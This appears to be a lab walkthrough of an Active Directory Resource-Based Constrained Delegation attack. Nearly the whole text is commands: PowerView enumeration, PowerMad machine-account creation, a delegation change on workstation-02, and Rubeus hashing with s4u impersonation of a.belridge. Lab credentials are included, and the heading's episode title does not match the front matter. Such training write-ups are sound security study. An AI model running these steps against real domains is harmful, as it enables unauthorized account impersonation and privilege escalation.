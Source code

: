 ```yaml
---
date: 2025-03-19
categories: [CTF, IML]
title: "IML - Kerberos: Ep.11 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce']

description: "Kerberos Ep.11 – Resource-Based Constrained Delegation (RBCD) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep.11 – Resource-Based Constrained Delegation (RBCD)


![image1](../resources/acf4b1efdfed40ba82617d29aaac9a3c.png)

- RDP:
```bash
xfreerdp /v:10.102.81.46 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image2](../resources/59f728b2e31143279fb57ff6abe435e4.png)


![image3](../resources/00add91b42de458cb58e3d5d8fd2c494.png)

- Enumeration:

```bash
. .\PowerView.ps1

get-domainuser s.villanelle -properties objectsid | select -exp objectsid

```

![image4](../resources/9fce19984a314375ad5e4ac1279d4a2c.png)

- Then, use the SID to enumerate what rights you have over Workstation-02 by running the command:

```bash
get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "[USER_SID]"}

get-domainobjectacl workstation-02 | ?{$_.SecurityIdentifier -eq "S-1-5-21-2984655098-284417223-3543700247-1121"}

```

![image5](../resources/d345e612b4484a6fa8e077489e00020c.png)


![image6](../resources/1486aeb35ae747a49a89028b530b5328.png)


![image7](../resources/3825e0e3c43b4055af8892ecada67b4d.png)


![image8](../resources/2e5c18f4823445d0bcc084376334c4de.png)

- Open Elevated Powershell:
```bash
. .\Powerview.ps1

Get-DomainObject -Identity "dc=krbtown,dc=local" -Domain krbtown.local

```

![image9](../resources/e2cb819759a4414e89e754b176536469.png)


![image10](../resources/33a1927dd54646c9b9b040094cdca15b.png)


![image11](../resources/a9d5c91b7e574921a84d4ce2944b53bf.png)


![image12](../resources/6f0f3726c11a4c39b07f2bb2d69f445b.png)


![image13](../resources/d847b9c6c0104d779bdacc1f4aed11cb.png)

- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-NetComputer Workstation-02 | Select-Object -Property name, msDS-AllowedToActOnBehalfOfOtherIdentity

```

![image14](../resources/6ef8a7da86574f3e8abf78ffcc3ac025.png)


![image15](../resources/c85c465d4bb84a69a6930dfb6fb76267.png)

- Open Elevated Powershell:
```bash
. ./PowerMad.ps1

```
New-MachineAccount -MachineAccount \<ANY_MACHINE_NAME\> -Password \$(ConvertTo-SecureString '\<RANDOM_PASSWORD\>' -AsPlainText -Force) -Verbose

**Give the machine a name of your choice and a password that meets the password policy**

```bash
New-MachineAccount -MachineAccount terminator -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force) -Verbose

```

![image16](../resources/4dff6fa14feb4fe097312d863f93126c.png)


![image17](../resources/b79ee794a7124ad5a9eda5f3ddf1e9cd.png)

Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount \<NEW_MACHINE_NAME\>\$

```bash
Set-ADComputer workstation-02 -PrincipalsAllowedToDelegateToAccount terminator$

```

![image18](../resources/bec307712f264d0dbebbb9bd49581ebe.png)

- Open Elevated Powershell
```bash
. .\Powerview.ps1

Get-ADComputer workstation-02 -Properties PrincipalsAllowedToDelegateToAccount

```

![image19](../resources/b30d43b19de345279141f03ba543e019.png)


![image20](../resources/cb2f4b40c2bf4a88bd70115e9afc2e0a.png)


![image21](../resources/dd5d27563c1c482da276e7111c53c94f.png)

- Open Elevated Powershell:
.\Rubeus.exe hash /password:\<PASSWORD_OF_NEW_MACHINE\> /user:\<NEW_MACHINE_USERNAME\>\$ /domain:krbtown.local

```bash
.\Rubeus.exe hash /password:Password123 /user:terminator$ /domain:krbtown.local

```

![image22](../resources/47e81e1cbd1d473c8b9cecb6bd34144c.png)


![image23](../resources/d3dcf7d691724bde8927c93f60381887.png)

rubeus s4u /user:\<NEW_MACHINE_USERNAME\>\$ /rc4:\<NEW_MACHINE_HASH\> /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```bash
.\Rubeus.exe s4u /user:terminator\$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:a.belridge /domain:krbtown.local /msdsspn:cifs/workstation-02.krbtown.local /ptt

```

![image24](../resources/6478b76b0a284ac9890acd4e0938be08.png)


![image25](../resources/b3ebf0d4a70641e4b5cb7cbd832fd8bf.png)

- Check with: klist

![image26](../resources/20805bf54d6747448d1f41b316f581cd.png)


![image27](../resources/040b0400cc41472fb844f81364478e73.png)


![image28](../resources/00e48279ffef426d8baf930a3a5d04a3.png)


![image29](../resources/ca60ab9335384cc7879ce72eff5f6a37.png)
